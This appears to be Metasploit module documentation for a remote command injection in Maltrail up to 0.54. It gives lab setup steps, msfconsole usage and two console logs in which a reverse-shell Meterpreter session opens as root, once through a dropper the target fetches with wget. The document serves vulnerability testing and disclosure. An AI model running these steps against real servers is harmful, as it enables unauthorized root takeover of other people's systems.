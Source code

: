 ## Vulnerable Application

Maltrail is a malicious traffic detection system, utilizing publicly
available blacklists containing malicious and/or generally suspicious trails.
The Maltrail versions <= 0.54 is suffering from a command injection vulnerability.
The `subprocess.check_output` function in `mailtrail/core/http.py` contains
a command injection vulnerability in the `params.get("username")` parameter.
An attacker can exploit this vulnerability by injecting arbitrary OS commands
into the username parameter. The injected commands will be executed with the
privileges of the running process. This vulnerability can be exploited remotely
without authentication.

This issue was discovered and reported by Chris Wild @briskets.
Check [here](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) for the original report.

## Testing
For installing the vulnerable version follow the steps below,
1. Follow the manual installation steps given [here](https://github.com/stamparm/maltrail/tree/0.53#quick-start)
2. After cloning the git project, simply do `git checkout 0.53` and proceed with the rest of the steps.

After these steps the Maltrail web interface will be exposed on the `http://<target>:8338/`.

## Verification Steps

1. msfconsole
2. Do: `use exploit/unix/http/maltrail_rce`
3. Do: `set RHOST [IP]`
3. Do: `set LHOST [IP]`
4. Do: `run`

## Options

## Scenarios

```
msf6 > use exploit/unix/http/maltrail_rce 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/maltrail_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/maltrail_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/maltrail_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.52
[*] Executing Unix Command...
[*] Sending stage (24772 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.17.0.2:42250) at 2023-08-10 22:31:03 +0200

meterpreter > sysinfo 
Computer     : bab669395cfe
OS           : Linux 6.4.7-hardened1-2-hardened #1 SMP PREEMPT_DYNAMIC Wed, 02 Aug 2023 11:05:52 +0000
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid 
Server username: root
meterpreter > 
```

```
msf6 > use exploit/unix/http/maltrail_rce 
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/maltrail_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(unix/http/maltrail_rce) > set lhost 172.17.0.1
lhost => 172.17.0.1
msf6 exploit(unix/http/maltrail_rce) > run

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version Detected: 0.52
[*] Executing Linux Dropper...
[*] Using URL: http://172.17.0.1:8080/Y9BtoN1
[*] Client 172.17.0.2 (Wget/1.21.2) requested /Y9BtoN1
[*] Sending payload to 172.17.0.2 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (172.17.0.1:4444 -> 172.17.0.2:48664) at 2023-08-10 22:33:27 +0200
[*] Command Stager progress - 100.00% done (110/110 bytes)
[*] Server stopped.

meterpreter > sysinfo 
Computer     : 172.17.0.2
OS           : Ubuntu 22.04 (Linux 6.4.7-hardened1-2-hardened)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: root
meterpreter > 

```
